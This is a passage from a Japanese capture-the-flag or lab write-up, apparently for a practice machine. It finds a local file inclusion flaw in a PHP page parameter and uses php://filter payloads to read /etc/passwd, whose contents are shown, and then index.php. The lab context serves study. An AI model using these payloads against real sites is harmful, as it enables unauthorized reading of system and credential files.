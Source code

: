readme.txt が出ただけ。AtlantaテンプレートのReadme。

## ファイルインクルージョン

http://10.10.238.203/index.php?page=home.html

というURLが表示されており、ファイルインクルージョンを疑う。

http://10.10.238.203/index.php?page=readme.txt

とするとテキストの内容が表示される。

http://10.10.238.203/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```

http://10.10.238.203/index.php?page=php://filter/convert.base64-encode/resource=index.php
